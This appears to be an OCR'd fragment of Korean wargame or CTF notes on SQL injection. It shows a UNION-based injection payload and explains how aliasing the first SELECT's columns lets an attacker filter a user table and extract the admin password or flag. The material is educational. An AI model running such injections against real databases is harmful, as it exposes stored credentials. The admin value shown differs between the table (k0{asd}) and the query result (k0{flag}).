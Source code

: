 |

```sql
' union select 1,2,3 from (테이블) #
```

union을 활용해 테이블을 재구성해야 함

|

**user 테이블**

| id | username | password |
| --- | --- | --- |
| 1 | guest | password |
| 2 | admin | k0{asd} |

```sql
-- 테이블 재구성 쿼리
select 1,2,3
union
select * from user
```

```sql
-- 쿼리 결과
1 | 2 | 3
1 | guest | password
2 | admin | k0{flag}
```

user 테이블이 위와 같을 때, 쿼리 실행 결과

`user 테이블`의 열이 `1,2,3`으로 바뀜

union의 최종 결과의 열 이름은 첫 번째 쿼리의 열 이름을 사용하기 때문임. `AS`를 이용해 컬럼 명을 바꾸어 사용하기 위해서는 쿼리 순서가 반드시 지켜져야 함

하지만 MySQL에서는 열 이름은 숫자로 시작할 수 없기 때문에 `where 2 = ‘admin’`같은 조건은 사용할 수 없음

|

```sql
-- 테이블 재구성 쿼리
select 1 as id, 2 as name, 3 as pw
union
select * from user
```

```sql
-- 쿼리 결과
id | name | pw
1 | guest | password
2 | admin | k0{flag}
```

`AS`를 사용해 별칭을 지정해주면 `where name = ‘admin'`같은 조건을 사용할 수 있게 됨
